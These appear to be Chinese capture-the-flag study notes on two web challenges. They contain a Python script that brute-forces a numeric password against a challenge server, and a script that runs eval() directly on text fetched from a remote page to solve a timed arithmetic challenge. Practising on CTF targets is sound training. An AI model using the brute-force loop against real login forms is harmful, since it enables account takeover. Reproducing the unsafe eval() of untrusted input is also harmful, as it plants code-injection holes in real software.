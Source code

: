 > [【Python】利用Requests模块进行密码爆破](https://cloud.tencent.com/developer/article/1573148)
>
> - https://mp.weixin.qq.com/s?__biz=Mzg3MDE5OTIwNw==&mid=2247484961&idx=1&sn=86246772e65901d1bb833055dcf66890&chksm=ce903ce9f9e7b5ff2d2cffdffdefc6e60b66de5b00341e8e7b94b97d590d82f12f164e4c5a6f&scene=21#wechat_redirect

初级：

[dvwa账号密码爆破，公众号](https://cloud.tencent.com/developer/article/1573148)



### python弱口令爆破

爆破5位数密码

```
# 弱口令爆破
import requests

def ssh():
    url = "http://114.67.246.176:12035/"
    for pwd in range(10000,20000):
        pwd = str(pwd)
        r = requests.post(url, data={'pwd': pwd})
        r.encoding = 'utf-8'
        r_text = r.text
        judge = "密码不正确，请重新输入"
        if (judge in r.text):
            print("尝试密码：{},反应状态码：{},密码错误.".format(pwd, r))
        else:
            print("尝试密码：{},反应状态码：{},密码正确.".format(pwd, r))
            print("爆破完成")
            break

ssh()
```







### 秋名山车神

##### 考点：python脚本、session、正则匹配

[wp1](https://blog.csdn.net/Mitchell_Donovan/article/details/112453206)、[wp2**](https://asd1054.github.io/bugku_first_wp/web/%E7%A7%8B%E5%90%8D%E5%B1%B1%E8%80%81%E5%8F%B8%E6%9C%BA.html)

而且刷新多次数字是变化的

用python脚本：

```python
import requests #引入request库
import re 		#引入re库
 
url = '''http://123.206.87.240:8002/qiumingshan/'''
s = requests.session()  #用session会话保持表达式
retuen = s.get(url)
 
equation = re.search(r'(\d+[+\-*])+(\d+)',retuen.text).group()
result = eval(equation)	#eval()函数用来执行一个字符串表达式,并返回表达式的值。
 
key = {'value':result}#创建一个字典类型用于传参
flag = s.post(url,data=key)#用post方法传上去
 
print(flag.text)
```
